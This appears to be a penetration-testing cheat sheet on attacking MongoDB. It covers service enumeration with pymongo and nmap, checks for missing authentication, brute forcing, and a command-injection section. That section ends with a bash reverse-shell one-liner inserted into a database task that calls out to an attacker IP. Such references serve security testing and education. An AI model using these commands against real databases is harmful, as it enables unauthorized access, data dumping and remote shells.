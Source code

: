 # MongoDB - 27017,27018

## MongoDB Information

MongoDB is an open source database management system \(DBMS\) that employs a document-oriented database paradigm that accommodates a wide range of data types.

Default port: 27017, 27018

```text
PORT      STATE SERVICE VERSION
27017/tcp open  mongodb MongoDB 2.6.9 2.6.9
```

## Enumeration

### Manual

```text
from pymongo import MongoClient
client = MongoClient(host, port, username=username, password=password)
client.server_info() #Basic info
#If you have admin access you can obtain more info
admin = client.admin
admin_info = admin.command("serverStatus")
cursor = client.list_databases()
for db in cursor:
    print(db)
    print(client[db["name"]].list_collection_names())
```

Common MongoDB commands:

```text
show dbs
use <db>
show collections
db.<collection>.find()  #Dump the collection
db.<collection>.count() #Number of records of the collection
db.current.find({"username":"admin"})  #Find in current db the username admin
```

### Automatic

```text
nmap -sV --script "mongo* and default" -p 27017 <IP>
```

## Authentication

By default, mongo does not require a password.

```text
mongo <HOST>
mongo <HOST>:<PORT>
mongo <HOST>:<PORT>/<DB>
mongo <database> -u <username> -p '<password>'
```

The nmap script: **mongodb-brute** will check if creds are needed.

```text
nmap -n -sV --script mongodb-brute -p 27017 <ip>
```

### ​Brute force​

Look inside **mongodb.conf** to know if credentials are needed:

```text
grep "noauth.*true" mongodb.conf | grep -v "^#" 
grep "auth.*true" mongodb.conf | grep -v "^#\|noauth"
```

## Command Injection

We can try to insert commands:

```text
> db.tasks.insert({"cmd": "touch /tmp/evil"})
> db.tasks.find()
```

We can also try to get a reverse shell:

```text
 db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.14.19/443 0>&1'"})
```

